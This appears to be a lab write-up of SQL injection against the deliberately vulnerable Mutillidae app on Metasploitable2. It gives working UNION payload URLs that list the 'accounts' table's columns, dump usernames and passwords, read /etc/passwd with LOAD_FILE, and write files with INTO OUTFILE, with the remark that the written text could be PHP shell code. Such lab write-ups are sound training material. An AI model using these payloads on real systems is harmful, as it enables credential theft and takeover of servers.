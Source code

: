 Here we are trying to extract column names from the “accounts” table.



![image](https://github.com/user-attachments/assets/23b3ca4b-8254-48b0-8cfb-7170174b6bf0)









The column names of the accounts is displayed below for the following url:

http://192.168.205.1/mutillidae/index.php?page=user-info.php&username=thaksha%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/user-attachments/assets/b23227a4-8f5d-4fe8-b2f4-e12e713ec168)







Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.205.1/mutillidae/index.php?page=user-info.php&username=thaksha%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/user-attachments/assets/47b71497-117b-4bf1-b899-d0254e1d3ef9)






## Reading and Writing Files on the Web Server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.205.1/mutillidae/index.php?page=user-info.php&username=thaksha%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/user-attachments/assets/2c5dbe79-9041-42de-9e85-e2e011d0fa14)





the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
